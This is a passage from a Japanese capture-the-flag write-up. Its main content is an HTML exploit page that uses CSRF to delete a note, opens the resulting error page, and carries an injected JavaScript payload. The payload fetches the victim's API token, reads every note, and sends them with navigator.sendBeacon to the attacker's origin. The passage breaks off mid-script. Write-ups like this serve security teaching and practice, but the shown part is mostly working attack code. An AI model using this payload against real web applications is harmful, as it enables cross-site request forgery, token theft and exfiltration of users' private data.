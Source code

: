 以上のことを踏まえてフラグ奪取のスクリプトを組み立てます。

```html title="public/index.html"
<body>
  <script>
    const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

    const deleteNote = (url, noteId) => {
      const form = document.createElement("form");
      form.action = url;
      form.method = "post";
      form.target = "_blank";

      const input = document.createElement("input");
      input.name = "noteId";
      input.value = noteId;
      form.appendChild(input);

      document.body.appendChild(form);
      form.submit();
    };

    const evilJs = `
      (async () => {
        const { token } = await (await fetch("/api/token")).json();

        const noteIds = await (
          await fetch("/api/notes", {
            headers: { "X-Token": token },
          })
        ).json();

        const notes = await Promise.all(
          noteIds.map((id) =>
            fetch("/api/notes/" + id, {
              headers: { "X-Token": token },
            }).then((res) => res.text())
          )
        );

        navigator.sendBeacon("${location.origin}", notes.join("\\n"));
      })();
    `;

    const main = async () => {
      const params = new URLSearchParams(location.search);
      const baseUrl = params.get("baseUrl");
      const noteId = params.get("noteId");

      {
        // Delete a note (and create a deleted page) with CSRF
        const url = `${baseUrl}/api/notes/delete`;
        deleteNote(url, noteId);
      }
      await sleep(1000);

      let evilWindow;
      {
        // Access to the deleted page with no token
        // Then, the browser will render a response with 500 status.
        const url = `${baseUrl}/api/notes/${noteId}`;
        evilWindow = open(url);
      }
      await sleep(1000);
```